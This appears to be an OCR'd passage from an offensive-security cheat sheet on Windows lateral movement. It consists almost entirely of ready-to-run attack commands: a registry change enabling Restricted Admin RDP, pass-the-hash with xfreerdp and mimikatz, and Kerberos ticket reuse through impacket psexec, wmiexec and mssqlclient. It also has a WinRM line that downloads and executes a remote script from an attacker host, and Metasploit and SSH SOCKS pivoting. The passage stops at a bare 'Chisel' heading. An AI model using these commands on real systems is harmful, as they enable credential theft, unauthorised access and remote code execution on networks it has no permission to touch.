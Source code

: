 ```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0

xfreerdp /v:192.168.10.10 /u:user /pth:[hash] /d:corp1.com /dynamic-resolution
```
or
```powershell
mimikatz.exe

privilege::debug

sekurlsa::pth /user:kevin /domain:red.local /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
## PTK and PTT

### Preparation

Passed the ticket or ccache.


### PsExec
```
python3 impacket/example/psexec.py -k -no-pass thomas@dc.red.local cmd
```
### WinRM
```
invoke-command -computername m3webaw.red.local -scriptblock {cmd /c "powershell -ep bypass iex (new-object net.webclient).downloadstring('http://10.10.14.111/run.txt')"}
```
### WMI
```
python3 impacket/examples/wmiexec.py -k --no-pass [red/]alice@10.9.20.10
```
### SQL
```
python3 impacket/examples/mssqlclient.py -p 1433  -windows-auth red/svc_sql@10.10.20.9 -k -no-pass
```
## Pivoting
### Socks

- Metasploit
```bash
use socks_proxy

set srvhost 127.0.0.1

run

use autoroute

set session 1

run
```
- SSH
```bash
ssh root@192.168.90.101 -D 1080
```
- Chisel
